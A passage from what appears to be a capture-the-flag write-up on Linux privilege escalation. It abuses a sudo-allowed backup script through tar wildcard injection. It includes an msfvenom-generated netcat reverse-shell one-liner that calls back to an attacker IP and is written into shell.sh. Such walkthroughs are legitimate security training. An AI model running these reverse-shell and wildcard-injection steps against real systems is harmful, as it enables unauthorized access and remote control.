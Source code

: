 Second thing to check is what groups this user belongs to and what permissions he has:
```bash
id
```

Results:

![image](https://user-images.githubusercontent.com/114166939/232226534-c41a0f5d-1666-4f1c-b31b-65820e7303ae.png)

```bash
sudo -l
```

Results:

![image](https://user-images.githubusercontent.com/114166939/232226516-e00e4895-5b5c-4dbd-8025-e361dfcaeb87.png)

The only thing this user can do as "michael" user is to run "/opt/backups/backup.sh" bash file.

I'll go this location and print this file:

```bash
cd /opt/backups/ && cat backup.sh
```

![image](https://user-images.githubusercontent.com/114166939/232226894-10ca44ec-8427-46f9-8638-11d47f4ab6fd.png)

The content of this bash file means that it will take all the content of "/opt/backups/" and archive it to the "backup.tar" archive.


![image](https://user-images.githubusercontent.com/114166939/232227008-81441152-846b-47ef-843d-1bd9defa3cf7.png)

The "backup.sh" file owned by "michael" user and the "backup.tar" owned by "jake" user.

There is a known vulnerability with the "tar" command and wildcard which also mentioned in GTFOBins ("https://gtfobins.github.io/") under "tar -> Sudo".

![image](https://user-images.githubusercontent.com/114166939/232227193-bfd17a2d-ee06-4751-911d-ec6e1d618235.png)

I'll use this technique to exploit this machine and get access to "michael" user.

For this purpose I'll use this article "https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/" under "Tar Wildcard Injection (1st method)" and will modify it for my own needs:

I'll start by generating a payload for the reverse shell using the "msfvenom" tool:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[MY-IP] lport=6666 R
```

Got the following results:
```bash
mkfifo /tmp/husncp; nc [MY-IP] 6666 0</tmp/husncp | /bin/sh >/tmp/husncp 2>&1; rm /tmp/husncp
```

Next, I'll echo this command inside a file called "shell.sh":
```bash
echo "mkfifo /tmp/lzeh; nc [MY-IP] 6666 0</tmp/lzeh | /bin/sh >/tmp/lzeh 2>&1; rm /tmp/lzeh" > shell.sh
```
